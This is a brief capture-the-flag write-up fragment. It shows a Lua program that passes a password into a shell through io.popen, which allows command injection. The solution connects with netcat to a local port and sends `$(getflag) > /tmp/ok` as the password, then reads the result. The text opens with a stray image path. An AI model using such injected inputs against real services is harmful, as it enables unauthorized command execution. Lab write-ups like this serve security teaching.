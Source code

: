 We can see in the main program
> prog = io.popen("echo "..pass.." | sha1sum", "r")

using `netcat 0.0.0.0 5151`

We can exploit this to actually execute a command for us

`$(getflag) > /tmp/ok`

then `cat /tmp/ok`

